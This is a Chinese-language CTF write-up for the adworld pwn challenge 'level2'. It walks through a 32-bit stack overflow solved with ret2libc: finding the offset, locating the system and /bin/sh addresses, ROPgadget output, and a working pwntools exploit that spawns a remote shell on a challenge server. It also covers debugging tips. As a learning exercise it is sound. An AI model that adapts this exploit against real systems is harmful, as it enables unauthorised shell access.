







## level2
- 题目链接：https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5055&page=1

## 解题过程

使用 `file` 查看文件，checksec查看文件的保护，32 x86，开启了NX保护，因此没法执行shellcode。

直接查看main函数，很直接调用了一个漏洞函数。



在漏洞函数内发现调用了read函数，读入的数据过长就能覆盖放回地址。



- 尝试使用 ret2libc的方法进行利用。

在ida中搜索system函数，地址为0x0804A038



- 定位偏移
  - 长度200的字符串

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9
```

定位到偏移长度为140




查看`_system` 函数的地址，为 0x08048320



搜索 `/bin/sh` 字符串的地址为 0x0804a024

```bash
cuc@cuc-VirtualBox:~/tools/ROPgadget-master$ python ROPgadget.py --binary ~/workspace/ctf/1ab77c073b4f4524b73e086d063f884e  --string '/bin/sh'
Strings information
============================================================
0x0804a024 : /bin/sh
```

> 这里我们需要注意函数调用栈的结构，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，这里以'bbbb' 作为虚假的地址，其后参数对应的参数内容。
>
> 这个例子相对来说简单，同时提供了 system 地址与 /bin/sh 的地址，但是大多数程序并不会有这么好的情况。
>
> 链接：https://ctf-wiki.github.io/ctf-wiki/pwn/linux/stackoverflow/basic-rop-zh/#ret2libc

- exp

```python
##! /usr/bin/env python 
from pwn import *
#sh = process('./1ab77c073b4f4524b73e086d063f884e')
#print("pid " + str(proc.pidof(sh)))
sh = remote("220.249.52.133",32817)
binsh_addr = 0x0804a024
system_addr = 0x08048320
payload = flat(['A'*140,p32(system_addr),'b'*4,p32(binsh_addr)])
#print(payload)
sh.sendline(payload)
sh.interactive()

```

运行exp就可以获得flag



## 问题

### 1. 一开始没有搜索到直接调用system("/bin/sh")的函数，所以尝试使用ret2syscall的方法。

   在ida可以搜索到/bin/sh字符串，接下来搜索所需要的gadget，但是没有搜索到可以控制eax寄存器的片段。所以放弃了这种方法。

```bash
cuc@cuc-VirtualBox:~/tools/ROPgadget-master$ python ROPgadget.py --binary ~/workspace/ctf/1ab77c073b4f4524b73e086d063f884e  --only 'pop|ret'
Gadgets information
============================================================
0x0804851b : pop ebp ; ret
0x08048518 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080482f5 : pop ebx ; ret
0x0804851a : pop edi ; pop ebp ; ret
0x08048519 : pop esi ; pop edi ; pop ebp ; ret
0x080482de : ret
0x080483ce : ret 0xeac1

Unique gadgets found: 7
cuc@cuc-VirtualBox:~/tools/ROPgadget-master$ python ROPgadget.py --binary ~/workspace/ctf/1ab77c073b4f4524b73e086d063f884e  --only 'pop|ret' | grep 'eax'

```

```bash
cuc@cuc-VirtualBox:~/tools/ROPgadget-master$ python ROPgadget.py --binary ~/workspace/ctf/1ab77c073b4f4524b73e086d063f884e  --string '/bin/sh'
Strings information
============================================================
0x0804a024 : /bin/sh

```

### 2. `system` 和 `_system` 函数的区别。

一开始使用的system函数的地址是在ida中直接搜索找到的，


但是调试发现0x0804a038跳转到的不是system函数



查看`_system` 函数的地址，时可以使用，目前不清楚 `system` 和 `_system` 的区别。


### 3. 如何调试 pwntools 脚本

编写pwntools脚本时，我们可能需要调试脚本，比如问题2中我们需要确定是否成功跳转到了system函数。

此时使用逐条执行pwntools脚本的方法，

1. 先启动程序，然后使用  `proc.pidof()` 函数打印函数进程号。
2. `gdb-multiarch attach PID` 调试器附加到该进程。
3. 接着再执行 `sendline` 发送payload。


因此此次题目使用了两种调试方法：

- qemu + gdb-multiarch （target remote 方法）：定位了覆盖eip的偏移。
- pwntools + gdb-multiatch （attach PID 方法）：调试解决了system函数地址不正确的问题。

